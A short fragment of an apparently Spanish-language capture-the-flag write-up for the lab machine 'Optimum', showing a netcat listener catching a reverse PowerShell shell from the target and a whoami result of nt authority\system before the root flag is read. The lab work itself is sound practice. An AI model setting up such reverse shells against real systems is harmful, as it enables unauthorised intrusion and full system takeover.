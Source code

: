 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49206
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

Ya somos administradores del sistema y podemos visualizar la flags *root.txt*.
